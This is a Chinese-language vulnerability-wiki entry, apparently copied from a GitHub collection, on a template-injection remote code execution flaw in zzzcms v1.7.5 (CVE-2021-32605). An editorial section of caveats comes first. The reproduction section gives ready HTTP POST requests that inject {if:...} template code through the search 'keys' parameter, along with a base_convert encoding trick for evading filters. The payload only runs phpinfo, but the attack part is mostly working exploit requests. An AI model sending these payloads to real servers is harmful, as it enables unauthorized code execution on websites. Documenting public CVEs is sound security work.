

## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：searchparser reachable; legacyPHPbase_convertinvalidcharhandling; callablefunctionallowed

- **结论使用边界（1）**：HTTP POST无Content-Type，表单keys可能不被解析，需恢复完整报文。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **结论使用边界（2）**：base_convert输入phpinfo()含非32进制括号，旧版忽略/警告与新版行为需注明；整数实际表示phpinfo不是含括号表达式。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **结论使用边界（3）**：与663后台template入口不同，不能同原语直接去重。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **事实待核（4）**：有NVD/anquanke准确来源但缺修复范围/代码分析，截图未验证。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# zzzcms v1.7.5 前台远程命令执行漏洞

## 漏洞描述

zzzcms v1.7.5 parserSearch 存在模板注入导致远程命令执行漏洞。

参考链接：

- https://nvd.nist.gov/vuln/detail/CVE-2021-32605
- https://www.anquanke.com/post/id/212272

## 漏洞影响

```
zzzcms v1.7.5
```

## 漏洞复现

执行 `phpinfo`：

```
POST /?location=search HTTP/1.1
Host: your-ip

keys={if:=phpinfo()}{end if}
```

如果遇到拦截，编码绕过：

```
<?php
echo (base_convert("phpinfo()", 32, 10));
?>
-----
27440799224
```

```
POST /?location=search HTTP/1.1
Host: your-ip

keys={if:array_map(base_convert(27440799224,10,32),array(1))}{end if}
```




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
